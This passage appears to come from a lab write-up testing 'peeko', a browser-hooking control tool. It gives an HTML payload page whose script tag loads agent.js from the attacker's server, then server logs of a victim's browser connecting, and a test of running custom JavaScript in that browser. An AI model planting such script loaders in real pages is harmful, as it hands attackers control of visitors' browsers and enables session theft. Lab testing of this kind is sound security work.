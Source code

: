 #### 3.2.2 Creating and opening infected page

The easiest way how to simulate a **Victim** is to simply open the page `https://10.3.10.99:8443/static/infect.html` in the browser on your **Victim**'s machine.

Alternatively you can create simple HTML page and publish it on your web server or just save it as `payload.html` into the `Document` folder on the **Victim**'s machine:

```html
<html>
<body>
	<script src="https://10.3.10.99:8443/static/agent.js"></script>
	<h1>Hello victim!</h1>
</body>
</html>
```

> [!info]
> If you use this method, bear in mind, that the **peeko** server use self-signed certificate, which is not automatically trusted by your web browser, so the request for `https://10.3.10.99:8443/static/agent.js` will fail with an invalid SSL certificate error. The solution is to visit the **peeko** server from the **Victim**'s browser first and tell the browser, that you trust the site.

When you open the infected page, you can immediately see a new entry in the **peeko Control Panel** and there are also following entries in the **peeko** server logs:

```
INFO:     10.3.10.22:52008 - "GET /static/agent.js HTTP/1.1" 200 OK
INFO:     10.3.10.22:52010 - "WebSocket /ws" [accepted]
INFO:     connection open
[+] Victim connected: victim-1 (10.3.10.22)
```

Obviously, the connection last only as long, as the user keeps the page opened in their browser. When they close it, the connection is lost:

```
[-] Victim disconnected: victim-1
INFO:     connection closed
```

#### 3.2.3 Testing peeko features

##### Custom JavaScript to Execute

I tried simple `alert('Hello victim!');` and it worked very well:

![Custom Javascript](JavascriptAlert.png)

